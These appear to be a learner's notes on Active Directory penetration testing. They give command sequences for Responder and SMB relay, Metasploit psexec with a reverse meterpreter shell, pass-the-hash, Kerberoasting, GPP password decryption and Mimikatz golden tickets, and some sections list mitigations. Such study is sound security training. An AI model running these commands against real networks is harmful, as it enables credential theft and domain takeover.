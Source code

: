 
<h1>Initial Attack AD</h1>
<h3>LLMNR(link local multi-name resolution)</h3>
	- executes when dns fails
	
	<b>Step 1: Run responder</b>
	  <em>python Responder.py -I tun0 -rdwv</em>
	<b>Step 2: An event occurs</b>
	<b>Step 3:Get dem hashes</b>
	<b>Step 4: Crack Dem hashes</b>
	  <em>hashcat -m 5600 hashes.txt rockyou.txt</em>
	<u>Mitigations</u>
	  <em>disable llmnr</em>
	  <em>disable nbt-ns</em>
		cant disable llmnr/nbt-ns
			require network access control
			require strong user password
- SMB Relay
	- relay hashes to specific machines and potentially gain access
	- requirements - 
		- smb signing must be turned off
		- relayed user credentials must be admin
	- Step1: Run Responder
		- turn http and smb off(gedit Responder.conf)
	- Step2: python Responder.py -I tun0 -rdw
	- Step3: ntlmrelayx.py -tf targets.txt -smb2support
	- Step4: An event occurs
	- Step5: Win
	- to look for disabled smb host(nmap --script=smb2-security-mode.nse -p445 (ip address))
	- perform an interactive shell type ntlmrelayx.py -tf targets.txt -smb2support -i( look at the ipaddress and port then in another tab type nc <ipaddress> <port> )
		- ntlmrelayx.py -tf targets.txt -smb2support -c "whoami" (to execute the command)
			- commands with interactive file share
				- shares
				- use C$
				- ls
	- Mitigations
		- Enable SMB signing on all devices
			- Pro: Completely stops the attack
			- Con: Can cause performance issues with file copies
		- Disable NTLM authentication on network
			- Pro: Completely stops the attack
			- Con: If Kereberos stops working, Windows defaults to NTLM
		- Account tiering:
			- Pro: Limits domain admins to specific tasks
			- Con: Enforcing the policy may be difficult
		- Local admin restriction:
			- Pro: Can prevent a lot of lateral movement
			- Con: Potential increase in the amount of service desk tickets
- Gaining Shell Access(using metasploit)
	- search psexec
	- use 10 (exploit/windows.smb/psexec)
	- options
	- set rhost <ip address>
	- set smbdomain <domain>
	- set smbpass <password>
	- set smbuser <user>
	- set payload windows/x64/meterpreter/reverse_tcp
	- set lhost eth0
	- run
	- if that doesnt work show targets
	- set target (use a different number)
	- Alternatives
		- psexec.py domain/user:password@ipaddress
		- smbexec.py domain/user:password@ipaddress
		- wmiexec.py domain/user:password@ipaddress
- IPv6 Attacks(interact with the dns server which may grab info from the DC)
	- download mitm6 from github fox-it/mitm6
	- mitm6 -d <domain>
	- alternative: ntlmrelayx.py -6 -t ldaps://<ip address of dc> -wh <name of ldap> -l lootme
	- then look at files
	- firefox <filename.html>
	- Mitigations
		- If wpad is not in use internally , disable it via Group Policy and by disabling the WinHttpAutoProxySvc service
		- Relay to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding
		- Consider Administrative users to the Protected Users group or marking them as Acount is sensitive and cannot be delegated, which will prevent any imperosnation of that user via delegation
		- Block dhcpv6 traffic
- Passback attacks
	- (need to read article)

<h1>Post-Compromise Enumeration</h1>
	- PowerView
		- powershell -ep bypass
		- . .\PowerView.ps1
		- Get-NetDomain
		- Get-NetDomainController
		- Get-DomainPolicy
		- (Get-DomainPolicy)."system access"
		- Get-NetUser
		- Get-NetUser | select cn
		- Get-NetUser | select samaccountname
		- Get-NetUser | select description
		- Get-UserProperty -Properties pwdlastset
		- Get-UserProperty -Properties logoncount
		- Get-UserProperty -Properties badpwdcount
		- Get-NetComputer
		- Get-NetComputer -FullData
		- Get-NetComputer -FullData | select OperatingSystem
		- Get-NetGroup
		- Get-NetGroup -GroupName "Domain Admins"
		-  Get-NetGroup -GroupName *admin*
		-  Get-NetGroupMember -GroupName "Domain Admins"
		- Invoke-ShareFinder(find file shares)
		- Get-NetGPO
		- Get-NetGPO | select displayname, whenchanged
- BloodHound
	- start writing here

<h1>Post-Compromise Attacks</h1>
- pass the password attacks
	- crackmapexec 
		- crackmapexec <ip/cidr> -u <user> -d <domain> -p <pass>
		- pass it locally crackmapexec <ip/cidr> -u <user> -H <hash> --local
		- installing apt install crackmapexec
		- change to syntax crackmapexec smb <ip address/cidr> -u <user> -d <domain> -p <password> then use psexec.py to access the other machines
		- crackmapexec smb <ip address/cidr> -u <user> -d <domain> -p <password> --sam(if successful will perform a sam dump)
		- psexec.py domain/user:<password>@<ip address>
			- if successful
				- whoami
				- hostname
	- dumping hashes with secretsdump.py
		- secretsdump.py domain/user:<password>@<ip address>
			- it dumps sam hashes,lsa secrets, dpapi_systems
			- saves hashes in a files to later be cracked by hashcat
	- cracking hashes with hashcat
		- hashcat64.exe -m 1000 hashfile.txt wordlist.txt
		- can pass the hash ntlm hashes but not ntlmv2
		- account with blank password means it could be disabled
-  pass the hash attacks
	- second half of the credential is the hash
	- crackmapexec smb <ip/cidr> -u "username" -H <hash> --local-auth
		- green + means that it work
		- red - means that it does not work
	- psexec.py "user ":<ip address> -hashes lmHash:ntlmHash
	- Mitigations
		- Limit account re-use:
			- Avoid re-using local admin password
			- Disable Guest and Administrator accounts
			- Limit who is local administrator(least privilege)
		- Utilize passwordsL:
			- The longer the better (>14 characters)
			- Avoid using common words
			- I like long sentences
		- Privilege Access Management (PAM)
			- Check out/in sensitive accounts when needed
			- Automatically rotate passwords on check out and check in
			- Limits pass attacks as hash/password is strong and constantly rotated
- Token Impersonation
	- Tokens are temporary keys that allow you to access to a system/network without having a provide crednetials each time you access a file.
	- Two Types:
		- Delegate - Created for logging into a machine or using Remote Desktop(usually rdp sessions)
		- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script
	- pop a shell and load incognito(built into meterpreter)
		- getuid(get the uid)
		- load incognito(loading the shell)
		- list_tokens -u(list the available tokens)
		- impersonate_token domain\\user
		- shell(load the shell)
		- whoami(know the user you are impersonating)
		- try invoke-mimikatz
			- Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /patch" exit' -Computer <name of domainController>
			- privilege::debug
			- LSADump:LSA /patch
	- Example
		- Metasploit
			- msfconsole
			- use exploit/windows/smb/psexec
			- options
			- set rhosts
			- set smbdomain 
			- set smbpass
			- set smbuser
			- show targets
			- set target 2
			- options
			- exploit
			- set payload windows/x64/meterpreter/reverse_tcp
			- options
			- set lhost eth0
			- options
			- run (then a meterpreter shell should appear)
			- hashdump
			- getuid
			- sysinfo
			- load and then double tab(to list the tools that can be loaded onto meterpreter)
			- load incognito
			- incognito help
			- list_tokens -u (to list users to impersonate)
			- impersonate_token <domain\\user>
			- shell 
			- whoami
			- control C to go back to meterpreter
			- rev2self(to go back to yourself and then hashdump to get the hashes)
	- Mitigations
		- Limit user/group token creation permissions
		- Account tiering
		- Local admin restriction
- Kerberoasting
	- Goal of kerberoasting: get the tgs and decrypt server's account hash
		- Steps to kerberos
			- 1) Request tgt. Provide ntlm hash
			- 2) Receive tgt encryption with krbtgt hash
			- 3) Request tgs for server(presents tgt)
			- 4) receive tgs encrypt with servers's account hash
			- 5) Present tgs for service encryption with server;s account
			- 6) Used when mutual authentication is required.
		- Steps to kerberoasting
			- 1) Step1: Get SPNs, Dump Hash
				- python GetUserSPNs.py <domain/username:password> -dc-ip <ip of DC> -request
			- 2) Step2: Crack the hash
				- hashcat64.exe -m 13100 kerberoast.txt rockyou.txt
	- Example
		- python GetUserSPNs.py <domain/username:password> -dc-ip <ip of DC> -request
		- copy entire hash and crack it with hashcat
		- hashcat64.exe -m 13100 kerberoast.txt rockyou.txt
	- Mitigations
		- Strong passwords
		- Least privilege
- GPP Attacks
	- Group Policy Preferences allowed admins to create policies using embedded credentials
	- These credentials were encrypt and placed in a "cPassword"
	- The key was accidentally released (whoops)
	- Patched in MS14-025, but doesn't prevent previous uses
	- Example
		- nmap -T5 <ip address>
			- port 53 domain controller
			- port 88 kerberos
			- port 389 ldap
			- port 636 ldapssl
		- attack involves smb port 445
			- smbclient -L \\\\<ip address>\\Replication
			- prompt off
			- recurse on (download all of the files I want it to)
			- mget * (to get all of the files)
			- looking for Groups.xml file(contains GPP)
				- Groups.xml contains the c password
				- gpp -decrypt <cPassword>
				- psexec.py domain/user:password@<ipaddress>(may not work)
				- GetUserSPNs.py domain/user:password -dc-ip <ipaddress> -request
				- get the service ticket and crack with hashcat
				- hashcat64.exe -m 13100 hashfile.txt rouckyou.txt
				- now login with administrator credentials
				- GetUserSPNs.py domain/user:password -dc-ip <dcipaddress> -request
				- whoami
				- hostname
	- URL Attack
		- compromise a user that has access to a open filed share
		- scf attack(look at it later)
	- Mimikatz
		- Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
		- Dump credentials stored in memory
		- Just a few attacks: Credentials, Pass-the-hash, Over-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket
		- download gentilkiwi/mimikatz
		- Example
			- mimikatz.exe
			- privilege::debug
			- sekurlsa::logonpassword
			- lsadump::sam
			- lsadump::sam /patch
			- lsadump::lsa /patch 
	- Golden ticket
		- mimikatz.exe
		- privilege::debug
		- lsadump::lsa /inject /name:krbtgt
		- copy the sid id and ntlm of the krbtgt account
		- kerberos::golden /User:Administrator /domain:<domain name> /sid:<sid id> /krbtgt:<nltm hash> /id:500 /ptt
		- misc::cmd
		- dir \\computername\c$
		- with psexec.py \\computer name cmd.exe
		- goldenticket = persistence
		- also look like silver ticket
		- 
